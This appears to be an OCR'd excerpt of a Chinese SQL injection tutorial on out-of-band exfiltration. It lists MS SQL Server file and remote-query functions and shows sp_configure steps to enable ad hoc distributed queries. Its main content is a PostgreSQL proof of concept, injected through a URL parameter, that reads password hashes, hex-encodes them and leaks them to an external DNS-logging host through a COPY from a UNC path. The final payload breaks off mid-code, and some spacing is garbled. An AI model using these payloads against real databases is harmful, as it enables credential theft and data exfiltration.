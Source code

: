 ms sqlserver的其它函数：
- master..xp_fileexist
- master..xp_subdirs
- OpenRowset() 
- OpenDatasource() 

后面两个是加载远程数据库的函数，需要较高权限，系统默认是关闭的，需要通过sp_configure去配置高级选项开启：

```
exec sp_configure 'show advanced options',1；　　

reconfigure；　　

exec sp_configure 'Ad Hoc Distributed Queries',1；　　

reconfigure；
```

### postgresql

可以编写一个自定义的函数和存储过程，和SQLServer类似.


copy函数的定义
```
COPY tablename [ ( column [, ...] ) ] 
FROM { 'filename' | STDIN } [ WITH ] [ BINARY ] [ OIDS ] [ DELIMITER [ AS ] 'delimiter' 'null string' ] CSV [ QUOTE [ AS ] 'quote' 'escape' ] 
[ FORCE NOT NULL column [, ...] ] 
COPY tablename [ ( column [, ...] ) ] TO { 'filename' | STDOUT } [ WITH ] [ BINARY ] [ OIDS ] [ DELIMITER [ AS ] 'delimiter' 'null string' ] 
CSV [ QUOTE [ AS ] 'quote' 'escape' ] [ FORCE QUOTEcolumn [, ...] ]
```

从定义看出这里是无法嵌套查询，它这里需要直接填入文件名，所以过程就麻烦一点。

这是网上的POC，整体上没有什么问题。
```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;BEGINSELECT INTO query_result (SELECT passwdFROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)FROM E\'\\\\'||query_result||E'.postgreSQL.nk40ci.ceye.io\\foobar.txt\'';
EXECUTE exec_cmd;END;$$ LANGUAGE plpgSQL SECURITY DEFINER;SELECT temp_function();
```

只是需要对数据处理编一下码，此处会用到encode函数，如下

`encode(pass::bytea,’hex’)`

最后完整的POC如下：

```
http://127.0.0.1/pgSQL.php?id=1;DROP TABLE IF EXISTS table_output;

CREATE TABLE table_output(content text);

CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT;

DECLARE query_result TEXT;

BEGIN SELECT INTO query_result (select encode(pass::bytea,'hex') from test_user where id =1);

exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.pSQL.3.nk40ci.ceye.io\\\\foobar.txt\'';

   EXECUTE exec_cmd;

```